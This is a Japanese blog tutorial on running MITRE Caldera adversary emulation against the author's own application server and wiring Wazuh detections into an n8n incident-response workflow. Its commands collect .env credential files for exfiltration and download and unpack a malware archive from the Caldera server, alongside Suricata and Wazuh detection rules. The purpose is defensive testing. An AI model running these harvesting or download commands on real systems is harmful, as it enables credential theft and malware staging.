[前の記事](./xdr-and-siem-with-wazuh)で様々な脅威を検知し管理する仕組みをWazuhで構築しました。
本記事では前回の環境にMITRE Calderaによる攻撃者エミュレーションおよび簡単なインシデントレスポンスの実装を組み込みます。

## TOC

## システム概要

今回MITRE Calderaで行う攻撃者エミュレーションは以下の２パターンです。

- アプリケーションサーバーにあるクレデンシャルファイルを外部サーバーへアップロード
- アプリケーションサーバーにマルウェアをダウンロード

上記攻撃に対して以下のインシデントレスポンスを実装します。

- 検知した脅威をインシデント管理ツールおよびチャットツールに送信
- アプリケーションサーバーをネットワークから隔離

## システム構成

今回のシステム構成は下図のようになります。
アプリケーションサーバーにCalderaエージェントをインストールし、Calderaサーバーからの命令に従って攻撃者エミュレーションを実行します。
Wazuhエージェントは検知した攻撃者エミュレーションを管理サーバーに送信し、管理サーバーはワークフローエンジンを介してインシデント管理ツールおよびチャットツールに脅威情報を送信します。その後にワークフローエンジンからスクリプトを実行してアプリケーションサーバーをネットワークから隔離します。

<figure></figure>


| Resource | Usage | Hosting Type | Licensing Model |
| - | - | - | - |
| [MITRE Caldera](https://caldera.readthedocs.io/en/latest/index.html) | 攻撃者エミュレーションを自動化する | Self Hosting（Docker container on Hetzner Cloud） | Free<br />Open Source |
| [Wazuh](https://documentation.wazuh.com/current/index.html) | サーバーに対する様々な脅威を検知・管理する | Self Hosting（Docker container on Hetzner Cloud） | Free<br />Open Source |
| [Catalyst](https://catalyst.security-brewery.com/docs/category/catalyst-handbook/) | セキュリティに関するアラートやインシデントなどをチケット管理する | Self Hosting（Docker container on Hetzner Cloud） | Free<br />Open Source |
| [Caddy](https://caddyserver.com/docs/) + [Coraza](https://coraza.io/docs/tutorials/introduction/) | WebサーバーおよびWAF | Self Hosting（Docker container on Hetzner Cloud） | Free<br />Open Source |
| [n8n](https://docs.n8n.io/) | ワークフローを実行する | Self Hosting（Docker container on Hetzner Cloud） | Freemium<br />Open Source |
| [Mattermost](https://docs.mattermost.com/) | 脅威情報の通知先 | Self Hosting（Docker container on Hetzner Cloud） | Freemium<br />Open Source |


## 攻撃者エミュレーションの実装

### Calderaエージェントの配置

攻撃者エミュレーションは攻撃対象のホストに配置したCalderaエージェントを介して実行します。
Calderaエージェント（今回はデフォルトエージェントの`Sandcat`を使用）は管理画面の指示に従って以下のコマンドでホストにダウンロードして起動します。

```shell
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" http://[caldera server address]/file/download > splunkd
chmod +x splunkd
./splunkd -server http://[caldera server address] -group red -v
```

### 攻撃者プロファイルの作成

MITRE Calderaには[MITRE ATT&CK](https://attack.mitre.org/)の戦術/テクニックを実装した汎用的なコンポーネント（Calderaでは`Ability`と呼ぶ）が組み込まれています。
これらの汎用アビリティと自分で実装したアビリティを組み合わせて攻撃者エミュレーションを構成します（Calderaでは`Adversary profile`と呼ぶ）。

#### テクニック「Exfiltration Over Alternative Protocol（T1048）」の実装

まずは[Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048/)を実装した攻撃者プロファイルを作成します。攻撃は以下の４つのステップで行います。

1. クレデンシャルファイルを保管するためのディレクトリの作成
1. クレデンシャルファイルを収集して作成したディレクトリにコピー
1. ディレクトリのアーカイブを作成
1. 作成したアーカイブを外部に送信

ステップ1、3、4は汎用アビリティを使用し、ステップ2のみアビリティ作成画面から作成します。

<figure></figure>

作成画面で以下のように設定します。

| Name | Value |
| - | - |
| Name | 任意のアビリティ名 |
| Description | 任意の概要文 |
| Tactic | collection |
| Technique ID | T1005 |
| Technique Name | Data from Local System |
| Options | Delete payload |
| Executors | 以下のように設定 |


| Name | Value |
| - | - |
| Platform | Linux |
| Executor | sh |
| Payloads | No payloads |
| Command | 以下のコマンドを設定 |
| Requirement Module | plugins.stockpile.app.requirements.paw_provenance |
| Source | host.dir.staged |

```shell
# .envファイルを収集して保管ディレクトリにコピー
find /var/www/html -name "*.env*" -type f | xargs -I {} bash -c 'cp {} #{host.dir.staged}/$(echo {} | sed "s/\//_/g")'
```

アビリティを作成したら攻撃者プロファイル作成画面で必要なアビリティを選択して新しいプロファイルを作成します。
選択するアビリティは以下の４つです。

1. Create staging directory（戦術：collection、テクニックID：T1074.001）
1. 自作したアビリティ
1. Compress staged directory（戦術：exfiltration、テクニックID：T1560.001）
1. Exfil staged directory（戦術：exfiltration、テクニックID：T1041）

<figure></figure>

>[!NOTE]
>ステップ2のアビリティの作成でSourceに設定した`host.dir.staged`にはステップ1の`Create staging directory`で作成されたディレクトリのパスが代入されます。

#### テクニック「Stage Capabilities: Upload Malware（T1608.001）」の実装

次に[Stage Capabilities: Upload Malware](https://attack.mitre.org/techniques/T1608/001/)を実装した攻撃者プロファイルを作成します。攻撃は以下の2つのステップで行います。

1. マルウェアのダウンロード先ディレクトリの作成
1. 作成したディレクトリにマルウェアをダウンロード

ステップ1は汎用アビリティを使用し、ステップ2をアビリティ作成画面から作成します。

<figure></figure>

作成画面で以下のように設定します。

| Name | Value |
| - | - |
| Name | Download malware to staged directory |
| Description | 任意の概要文 |
| Tactic | stage-capabilities |
| Technique ID | T1608.001 |
| Technique Name | Stage Capabilities: Upload Malware |
| Options | Delete payload |
| Executors | 以下のように設定 |


| Name | Value |
| - | - |
| Platform | Linux |
| Executor | sh |
| Payloads | No payloads |
| Command | 以下のコマンドを設定 |
| Requirement Module | plugins.stockpile.app.requirements.paw_provenance |
| Source | host.dir.staged |

```shell
# アーカイブしたマルウェアをCalderaサーバーからダウンロードして展開
curl -s -X POST -H "file:malware.tar.gz" -H "platform:linux" #{server}/file/download > #{host.dir.staged}/malware.tar.gz && tar -xzf #{host.dir.staged}/malware.tar.gz -C #{host.dir.staged} && rm #{host.dir.staged}/malware.tar.gz
```

アビリティを作成したら攻撃者プロファイル作成画面で必要なアビリティを選択して新しいプロファイルを作成します。
選択するアビリティは以下の４つです。

1. Create staging directory（戦術：collection、テクニックID：T1074.001）
1. 自作したアビリティ

<figure></figure>

>[!NOTE]
>マルウェアのアーカイブファイルは管理画面のPayloadsからCalderaサーバーにアップロードすることができ、アップロードしたファイルはREST APIを使ってダウンロードすることができます。

<figure></figure>

## 検知ルールの作成

[前の記事](./xdr-and-siem-with-wazuh#%E4%B8%8D%E5%AF%A9%E3%81%AA%E3%83%8D%E3%83%83%E3%83%88%E3%83%AF%E3%83%BC%E3%82%AF%E3%83%88%E3%83%A9%E3%83%95%E3%82%A3%E3%83%83%E3%82%AF%E3%81%AE%E6%A4%9C%E7%9F%A5)でエンドポイント（アプリケーションサーバー）に`Suricata`の不審なネットワークトラフィックの検知ルールを作成しましたが、今回は新たにクレデンシャルファイルの外部送信を検知するルールを追加します（MIMEタイプ`multipart/form-data`で外部にPOST送信しているトラフィックを不正とみなす）。

```
alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"Suspicious file upload traffic via HTTP"; flow:to_server,established; http.method; content:"POST"; http.content_type; content:"multipart/form-data|3b|"; classtype:trojan-activity; sid:1000002; rev:1;)
```

次にWazuhサーバーの`/var/ossec/etc/rules/local_rules.xml`に以下のルールを追加し、本アラートの場合はMITREのテクニックIDを割り当てます。

```xml
<group name="ids,suricata,">

  [...]

  <rule id="100201" level="10">
    <if_sid>86601</if_sid>
    <field name="alert.signature_id">^1000002$</field>
    <description>Suricata: Alert - $(alert.signature)</description>
    <mitre>
        <id>T1048</id>
    </mitre>
  </rule>

  [...]

</group>
```

マルウェアの検知は[前回の記事](./xdr-and-siem-with-wazuh#%E3%83%9E%E3%83%AB%E3%82%A6%E3%82%A7%E3%82%A2%E3%81%AE%E6%A4%9C%E7%9F%A5)と同様の設定になります。

## 攻撃者エミュレーションの実行

攻撃者エミュレーションの実行はオペレーション実行画面から行います。
まずは、クレデンシャルファイルを外部サーバーに送信する攻撃（Exfiltration Over Alternative Protocol）を実行してみます。

作成した攻撃者プロファイルを選択してスタートボタンをクリックします。

<figure></figure>

攻撃者エミュレーションが開始されエージェントを介してアプリケーションサーバーでアビリティが順番に実行されます。

<figure></figure>

攻撃者エミュレーションが完了するとCalderaサーバーにアプリケーションサーバーから送信されたファイルがアップロードされます。

<figure></figure>

Wazuhの管理画面を確認すると外部へのファイル送信が検知されていることが確認できます。

<figure></figure>

次にマルウェアをダウンロードする攻撃（Stage Capabilities: Upload Malware）を実行してみます。

<figure></figure>

攻撃者エミュレーションが開始されエージェントを介してアプリケーションサーバーでアビリティが順番に実行されます。

<figure></figure>

Wazuhの管理画面を確認するとマルウェアが検知されていることが確認できます。

<figure></figure>

## インシデントレスポンスの実装

次に攻撃者エミュレーションに対するインシデントレスポンスを実装します（設定は[前回の記事](./xdr-and-siem-with-wazuh#%E3%83%AF%E3%83%BC%E3%82%AF%E3%83%95%E3%83%AD%E3%83%BC%E3%81%AE%E4%BD%9C%E6%88%90)を使用します）。

まずセキュリティイベントを受信するWebフックを作成します（ノードパネルから`On webhook call`を選択）。

<figure></figure>

ノードを追加して設定パネルで以下のように設定します。

| Name | Value |
| - | - |
| HTTP Method | POST |
| Path | 任意のパスを設定 |
| Authentication | Header Auth |
| Credential for Header Auth | Nameに`X-ApiKey`、Valueに`Wazuhサーバーのossec.confで指定したAPIキー`を設定 |
| Respond | Immediately |
| Response Code | 200 |

次に`Code`ノードでイベントデータの加工を行います（ノードパネルの`Data transformation`から選択）。

<figure></figure>

ノードを追加して設定パネルのコード入力欄に以下のJavaScriptを入力します。

```javascript
// インシデントとして扱うグループのリスト
const incident_groups = ['virus', 'invalid_login', 'exploit_attempt']
const alerts = []

for (const item of $input.all()) {
  let id = item.json.body.id
  let level = item.json.body.all_fields.rule.level
  let severity = level < 10 ? 'Medium' : 'High'
  let description = item.json.body.title
  let log = (item.json.body.all_fields.decoder.name === 'json' ? JSON.stringify(JSON.parse(item.json.body.all_fields.full_log), null, 2) : item.json.body.all_fields.full_log) ?? description
  let rule_id = item.json.body.rule_id
  let groups = item.json.body.all_fields.rule.groups
  let is_incident = groups.some(g => incident_groups.includes(g))
  let occurred_at = DateTime.fromISO(item.json.body.timestamp).toFormat('yyyy-MM-dd HH:mm:ss')
  
  alerts.push({
    id,
    level,
    severity,
    description,
    log,
    rule_id,
    groups,
    is_incident,
    occurred_at
  })
}

return alerts
```

次に`HTTP Request`ノードを追加してCatalystにチケットを登録します（ノードパネルの`Helpers`から選択）。

<figure></figure>

ノードを追加して設定パネルで以下のように設定します。

| Name | Value |
| - | - |
| Method | POST |
| URL | Catalystで作成したReactionのWebフックURL |
| Authentication | Generic Credential Type |
| Generic Auth Type | Header Auth |
| Credential for Header Auth | Authorization Bearer ＜Reactionで設定したトークン＞ |
| Send Headers | ON |
| Header Parameters (Name1)  | Content-Type |
| Header Parameters (Value1)  | application/json |
| Header Parameters (Name2)  | Accept |
| Header Parameters (Value2)  | application/json |
| Send Body | ON |
| Body Content Type | JSON |
| Specify Body | Using Fields Below |
| Body Parameters(Name1) | id |
| Body Parameters(Value1) | &#123;&#123; $json.id &#125;&#125; |
| Body Parameters(Name2) | severity |
| Body Parameters(Value2) | &#123;&#123; $json.severity &#125;&#125; |
| Body Parameters(Name3) | description |
| Body Parameters(Value3) | &#123;&#123; $json.description &#125;&#125; |
| Body Parameters(Name4) | is_incident |
| Body Parameters(Value4) | &#123;&#123; $json.is_incident &#125;&#125; |
| Body Parameters(Name5) | groups |
| Body Parameters(Value5) | &#123;&#123; $json.groups &#125;&#125; |
| Body Parameters(Name6) | occurred_at |
| Body Parameters(Value6) | &#123;&#123; $json.occurred_at &#125;&#125; |
| Body Parameters(Name7) | log |
| Body Parameters(Value7) | &#123;&#123; $json.log &#125;&#125; |

Catalystの設定は[前回の記事](./xdr-and-siem-with-wazuh#%E3%82%A4%E3%83%B3%E3%82%B7%E3%83%87%E3%83%B3%E3%83%88%E7%AE%A1%E7%90%86%E3%83%84%E3%83%BC%E3%83%ABcatalyst%E3%81%AE%E8%A8%AD%E5%AE%9A)のアクションのスクリプトの内容を下記のように修正して使用します。

```py
import sys
import json
import os
 
from pocketbase import PocketBase
 
event = json.loads(sys.argv[1])
body = json.loads(event["body"])
 
client = PocketBase('http://0.0.0.0:8090')
client.auth_store.save(token=os.environ["CATALYST_TOKEN"])
 
severity = body["severity"]
type = "incident" if bool(body["is_incident"]) else "alert"
 
if type:
  client.collection("tickets").create({
    "name": "%s has occurred at %s" % (body["id"], body["occurred_at"]),
    "description": "%s\n\n> %s" % (body["description"], body["log"]),
    "state": { "severity": severity }, 
    "type": type,
    "open": True,
  })
```

次に`Mattermost`ノードを追加してアラートを通知します。

<figure></figure>

ノードを追加して設定パネルで以下のように設定します。

| Name | Value |
| - | - |
| Credential to connect with | Mattermostで発行したアクセストークンとMattermostのURLを設定 |
| Resource | Message |
| Operation | Post |
| Channel Name or ID | 投稿したいチャネルのIDを設定 |
| Message | 下記のメッセージを入力 |

```
** {{ $('イベントデータ加工ノードの名前').item.json.is_incident ? ':fire: ' : ':rotating_light:' }}[{{ $('イベントデータ加工ノードの名前').item.json.severity }}]{{ $('イベントデータ加工ノードの名前').item.json.description }} **
> {{ $('イベントデータ加工ノードの名前').item.json.log }}
```

次に`Switch`ノードを追加してマルウェア検知イベントの場合は後続の処理へ進むようにします（マルウェア検知イベントはWazuhのルールIDで判別）。

